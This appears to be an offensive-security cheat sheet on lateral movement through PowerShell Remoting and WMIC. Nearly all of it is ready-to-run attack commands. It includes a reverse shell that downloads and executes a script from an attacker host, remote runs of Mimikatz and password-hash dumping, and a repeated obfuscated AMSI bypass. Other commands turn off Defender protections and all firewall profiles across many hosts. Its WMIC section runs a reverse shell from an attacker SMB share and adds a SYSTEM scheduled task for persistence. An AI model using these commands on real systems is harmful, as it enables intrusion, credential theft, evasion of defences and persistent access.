# Powershell Remoting

## Permissions: Administrator OR user in Remote Management Users group

## Requirements: WinRM (port 5985/5986) open

## Use case: You want modern, interactive access to a remote system (preferred for clean environments). Use it with valid credentials.

## Ways to use:

 - One-to-One

 - Interactive

 - Stateful

 - Executes in a new process (wsmprovhost)

 - Execute command on multiple systems at once

 - Runs background jobs

 - -Credential parameter can be used to pass credentials

## Create a session

##### Enable PowerShell Remoting on local system (Requires elevated privileges)

    Enable-PSRemoting

##### Create new PSSession

    New-PSSession -Computer Srv01.Security.local

##### Connect to PSSession

    Enter-PSSession -Computer Srv01.Security.local

##### Store session as variable

    $Session = New-PSSession -Computer Srv01.Security.local

### If you have sessions stored as variables then commands with the -Computername parameter can be replaced with -Session $session.

## Run commands on target

    Invoke-Command -Computername Srv01.Security.local -ScriptBlock {Whoami;Hostname}
    Invoke-Command -Computername Srv01.Security.local -FilePath 'C:\Tools\Invoke-Mimikatz.ps1'

##### Run locally loaded functions on target system

    Invoke-Command -Computername Srv01.Security.local -ScriptBlock ${Function:Test-Function}

##### Load script into remote session

    Invoke-Command -FilePath 'C:\Tools\Invoke-Mimikatz.ps1' -Session $Session

##### Reverse shell

    Invoke-Command -ComputerName Srv01.Security.local -ScriptBlock {cmd /c "powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://<IP>/Shell.ps1')"}

##### Bypass AMSI

    Invoke-Command -session $Session -scriptblock {sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )}

## Run commands on multiple systems

##### Execute commands on multiple systems

    Invoke-Command –Scriptblock {Get-Process} -ComputerName (Get-Content c:\Serverlist.txt) 

##### Execute scripts on multiple systems

    Invoke-Command –FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content c:\Serverlist.txt)

##### Execute functions on multiple systems

    Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content c:\Serverlist.txt)

##### Bypass AMSI on multiple systems

    Invoke-Command -Scriptblock {sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )} -ComputerName (Get-Content c:\Serverlist.txt)

## Disable Defenses

##### Turns off Defender, sets an exclusion path

    Invoke-Command -ComputerName Srv02.Security.local -ScriptBlock {Set-MpPreference -DisableRealtimeMonitoring $true;` Set-MpPreference -DisableIOAVProtection $true;` Set-MPPreference -DisableBehaviorMonitoring $true;` Set-MPPreference -DisableBlockAtFirstSeen $true;` Set-MPPreference -DisableEmailScanning $true;` Set-MPPReference -DisableScriptScanning $true;` Set-MpPreference -DisableIOAVProtection $true;` Add-MpPreference -ExclusionPath "C:\Windows\Temp";`}

##### Turns off all firewall profiles

    Invoke-Command -ComputerName Srv02.Security.local -ScriptBlock {Set-NetFirewallProfile -Profile "Domain","Public","Private" -Enabled "False"}

##### Turns off Defender and Firewall on multiple systems

    Invoke-Command -ScriptBlock {Set-MpPreference -DisableRealtimeMonitoring $true;` Set-MpPreference -DisableIOAVProtection $true;` Set-MPPreference -DisableBehaviorMonitoring $true;` Set-MPPreference -DisableBlockAtFirstSeen $true;` Set-MPPreference -DisableEmailScanning $true;` Set-MPPReference -DisableScriptScanning $true;` Set-MpPreference -DisableIOAVProtection $true;` Add-MpPreference -ExclusionPath "C:\Windows\Temp";` Set-NetFirewallProfile -Profile "Domain","Public","Private" -Enabled "False"}` -ComputerName (Get-Content c:\Serverlist.txt)

# Wmic

##### Execute calc.exe on remote system

    wmic /node:10.10.10.5 /user:moe process call create "cmd.exe /c calc.exe"

##### Executing reverse shell on remote system from a SMB share hosted on attackers system

    wmic /node:10.10.10.5 /user:moe process call create "cmd.exe /c \\10.10.10.200\Share\reverse.exe"

##### Setting up persistence with schtasks on a remote system to execute a reverse shell every minute/

    wmic /node:10.10.10.5 /user:moe process call create "schtasks /create /sc minute /mo 1 /tn "Persistence" /tr \\10.10.10.200\Share\reverse.exe /ru "SYSTEM""

